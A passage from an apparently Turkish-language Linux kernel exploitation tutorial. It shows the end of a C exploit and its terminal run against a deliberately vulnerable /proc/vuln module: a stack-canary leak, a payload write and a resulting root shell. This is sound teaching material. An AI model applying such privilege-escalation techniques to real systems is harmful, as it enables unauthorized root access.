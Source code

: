 ```c
    puts("Running the command");
    system(CMD);

}
```
Eğer oluşturduğumuz `user` kullanıcısı olarak bu yeni exploiti çalıştırırsak:
```
[user@k101 ~]$ ./exploit
Reading (0): 4141414141414141
Reading (1): 4141414141414141 
Reading (2): 4141414141414141 
Reading (3): 4141414141414141
Reading (4): 5e7e6aa8d2e8d600
Cookie leaked! 5e7e6aa8d2e8d600
Writing the payload to /proc/vuln
Running the command
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```
root shellimizi elde ediyoruz.

Bu exploit'in biraz daha süslü halini [src/exploit/](/src/exploit) dizini altında bulabilirsiniz.

---
[Önceki](first.md) | [Son söz](end.md)
